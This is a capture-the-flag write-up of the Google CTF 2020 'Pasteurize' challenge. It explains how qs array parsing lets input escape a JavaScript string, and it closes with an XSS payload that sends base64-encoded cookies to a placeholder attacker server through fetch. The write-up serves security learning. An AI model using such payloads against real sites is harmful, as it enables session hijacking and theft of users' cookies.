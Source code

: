 ```yaml
---
layout: post
title: "[GoogleCTF 2020] Pasteurize"
author: Vie
---
```


# TL;DR

1. Escape out of the `const note` javascript variable by forcing the app's bodyparser(`npm qs`) to interpret your input as an array
2. Craft XSS payload to steal cookies and put it into a paste
3. Share your paste with TJMike to get the flag

# Pasteurize 

The first web challenge from Google CTF 2020. It's a simple website that holds "pastes", or notes, that take your input and store it onto a note webpage. You make a note, and then you can share it with some entity called "TJMike". Pretty cut and clear XSS attack. 

Unfortunately, it's not that simple: 

```html
<!-- TODO: Fix b/1337 in /source that could lead to XSS -->
<script>
        const note = "test";
        const note_id = "5f6552a8-b92b-424c-b5cb-8069212b081d";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
</script>
    
```

There's a `<script>` tag in the HTML of the note we create that takes our input, puts it into a `note` variable, and then cleans it using [DOMpurify](https://www.npmjs.com/package/dompurify). The DOMpurify npm library is a pretty robust one, and I doubted that Google wanted us to 0day it to solve this challenge. Can we escape out of that `note` variable? If we could, say, inject our own quotation marks in there? If we could, then since we're already in a Javascript context, we could do all sorts of commands and implanting an XSS payload would be pretty easy to do. What's also interesting is the presence of that suspicious HTML comment, just above the `<script>` tag. More on that in a second. 

Putting a pin on that - if we examine how the requests are made when we submit our note, we see that a POST request is made where our input is in that request body, given to the server to process accordingly.

How does the body of POST requests get parsed by the pasteurize application? Well, going back to that HTML comment we saw earlier, we can see for ourselves by going to the `/source` endpoint.

```js
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

Amidst the rest of the code is this interesting declaration of how the app's bodyparser (what actually reads through a request body in the application) should work - in extended mode. Doing some [googling](https://stackoverflow.com/questions/55558402/what-is-the-mean-of-bodyparser-urlencoded-extended-true-and-bodyparser) reveals that setting bodyParser's extended mode to `true` means it will utilize the `qs` library to parse input. What does that mean for us?

The `qs` library can parse [strings and arrays](https://www.npmjs.com/package/qs) from request bodies. If you stipulate a parameter in the body as so:

```
pets[]=cat&dog
```

then `qs` will interpret it as an array:

```
pets: ['cat', 'dog']
```

Notice how the library will input its own quotation marks in the elements of the array. Can we leverage this behvaiour from `qs` to inject quotation marks for us? 

If you input into the body of the request:

```
content[] = ; alert(1); const ignore =
```

We can succesfully escape from that `note` variable from before and have an alert pop up when we visit the created note. Essentially, the `<script>` now looks like this:

```html
<script>
        const note = ""; alert(1); const ignore ="";
        const note_id = "5f6552a8-b92b-424c-b5cb-8069212b081d";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
</script>
```
And so the `alert` function is being correctly evaluated as javascript instead of as part of a string.

The rest of the challenge is a pretty cut and clear XSS - craft a payload that steaks a cookie and sends it to your server on load of the note webpage, and share that with TJMike.

```
content[] = ; document.getElementByID('note-content').onLoad = fetch("SER.ver?Cookie="%2Bbtoa(document.cookie))
```
This payloads crafts the cookie into a GET URL query, so it's encoded in base64 to avoid potential URL issues with strange characters. Report your note to TJMike, and retrieve the cookie sent to your server...

![Reported](/assets/images/googlectf2020/pasteurize/StolenCookie.png) 

Now we just need to decode it! 

![Decoded](/assets/images/googlectf2020/pasteurize/DecodedCookie.png) 